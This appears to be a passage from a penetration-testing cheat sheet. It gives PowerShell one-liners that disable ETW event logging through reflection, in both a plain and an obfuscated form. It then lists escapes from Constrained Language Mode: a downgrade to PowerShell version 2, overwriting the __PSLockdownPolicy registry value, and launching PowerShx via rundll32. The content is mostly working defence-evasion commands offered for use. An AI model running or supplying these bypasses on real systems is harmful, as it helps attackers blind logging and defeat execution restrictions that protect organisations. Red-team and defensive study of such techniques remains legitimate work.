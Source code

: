```
[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static'); $EventProvider = New-Object System.Diagnostics.Eventing.EventProvider -ArgumentList @([Guid]::NewGuid()); $EtwProvider.SetValue($null, $EventProvider);
```

#### Obfusacted
```
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

### Constrained Lanuage Mode
#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```

### Escapes for Constrained Language Mode
#### Launch Powershell Version 2
```
Powershell.exe -Version 2
```

#### Overwrite __PSLockdownPolicy variable
- If CLM is not implemented correctly and is using __PSLockdownPolicy

#### Check the __PSLockdownPolicy value
- Value 4 is enabled
- Value 8 is disabled
```
(Get-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy").__PSLockDownPolicy
```

#### Set lockdown policy to 8 and check language mode
- https://github.com/Metoraf007/Public_PowerShell/blob/master/Bypass_ConstrainedLang.ps1
```
Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy" -Value 8
powershell.exe
$ExecutionContext.SessionState.LanguageMode
```

### PowerShx
- https://github.com/iomoath/PowerShx
```
rundll32 PowerShx.dll,main -i 
PowerShx.exe -i  
```
